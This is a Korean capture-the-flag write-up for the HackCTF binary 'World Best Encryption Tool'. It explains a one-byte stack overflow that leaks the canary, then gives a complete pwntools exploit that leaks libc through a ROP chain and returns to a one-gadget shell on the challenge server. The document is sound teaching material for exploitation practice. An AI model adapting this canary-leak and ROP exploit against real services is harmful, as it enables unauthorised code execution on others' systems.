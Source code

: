 ```yaml
---
title: "[HackCTF]World Best Encryption Tool"
date: 2020-1-28
ctf: HackCTF
layout: post
---
```


Partial RELRO, Canary, NX 걸려있다.

```
[*] '/vagrant/ctfs/World_best_encryption_tool'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

메인에서는 scanf로 입력받아서 50글자 28이랑 xor해주고 strncpy로 57만큼 복사해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [rsp+8h] [rbp-88h]
  char s1; // [rsp+Ch] [rbp-84h]
  char src[64]; // [rsp+10h] [rbp-80h]
  char dest; // [rsp+50h] [rbp-40h]
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  do
  {
    puts("Your text)");
    __isoc99_scanf("%s", src);
    for ( i = 0; i <= 49; ++i )
      src[i] ^= 28u;
    strncpy(&dest, src, 57uLL);
    printf("Encrypted text)\n%s", &dest);
    puts("\nWanna encrypt other text? (Yes/No)");
    __isoc99_scanf("%s", &s1);
  }
  while ( !strcmp(&s1, "Yes") );
  if ( strcmp(&s1, "No") )
    printf("It's not on the option", "No");
  return 0;
}
```

스택은 이런식으로 되어있다. 

```
src(64) | dest(56) | canary(8) | sfp(8) | ret
```

src에서 dest로 복사할때 57만큼 복사하는데 여기서 dest크기는 56인데 canary 1바이트 덮을 수 있고 printf로 인자에 dest가 들어가니까 카나리 릭해줄 수 있다. 그리고 밑에서 또 입력받는데 여기서 카나리 맞춰주고 libc leak해주고 main으로 돌려서 무난하게 원샷 리턴해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./World_best_encryption_tool')
#p = process('./World_best_encryption_tool')
libc = e.libc
p = remote('ctf.j0n9hyun.xyz',3027)
prdi = 0x00000000004008e3 # pop rdi ; ret

p.sendlineafter('Your text)\n','A'*56+'B')

p.recvuntil('AAAAAA')
canary = u64(p.recv(8)) - 0x42
log.info('canary : ' + hex(canary))

#p.sendlineafter('(Yes/No)\n','Yes')

#payload = 'A'*56 + '\x00'
payload = 'A'*60 + '\x00' + 'B'*63
payload += p64(canary)
payload += 'A'*8
payload += p64(prdi)
payload += p64(e.got['__libc_start_main'])
payload += p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('(Yes/No)\n',payload)

libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['__libc_start_main']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('Your text)\n','A'*56 + '\x00' + 'B'*63 + p64(canary) + 'A'*8 + p64(libc_base + 0x45216))

p.interactive()
```

